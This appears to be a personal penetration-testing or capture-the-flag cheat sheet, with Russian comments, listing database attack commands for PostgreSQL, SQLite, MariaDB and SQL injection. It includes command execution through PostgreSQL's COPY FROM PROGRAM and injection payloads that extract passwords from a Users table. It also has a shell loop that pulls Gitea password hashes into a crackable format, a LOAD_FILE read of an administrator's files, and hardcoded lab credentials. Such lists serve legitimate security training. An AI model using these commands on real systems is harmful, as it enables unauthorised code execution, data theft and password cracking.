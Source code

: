 psql -U christine -h localhost -p 4444

\l - список таблиц

\с - конект с таблицей

\dt - выгрузить таблицу

select * from flag; - и так понятно

psql -h 192.168.135.7 -U postgres -W 'XzB.4fx4+LSHWsK' -d cats

SELECT current_setting('is_superuser'); -- Проверка суперпользователя

CREATE TABLE exec(cmd_output text);

COPY exec FROM PROGRAM 'id';

select * from exec;

'';SELECT tablename  FROM pg_tables;
''; (SELECT password FROM "Users") --

# SQLITE (python jinja)

sqlite3 db.sqlite

select * from User

.dump

select * from NOTE;

 вытянуть все       sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

# MariaDB

        mysql -h 127.0.0.1 -u root -p'ibWijteig5'
        mysql -h 127.0.0.1 -u root -p'ibWijteig5' -e "SHOW DATABASES;"
        $ mysql -h 127.0.0.1 -u root -p'ibWijteig5' outputwall -e "SHOW TABLES;"
        mysql> SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');

# SQL I
    # Union based   
        search=example' ORDER BY 1 --
        search=example' UNION SELECT 'any_string',NULL,NULL,NULL --
   
    # Boolean-Based Blind SQLi
        - определеие таблиц
        TrackingId=xyUauUD0CUhPTyX70vz'||(SELECT '' FROM user WHERE ROWNUM = 1)||'
        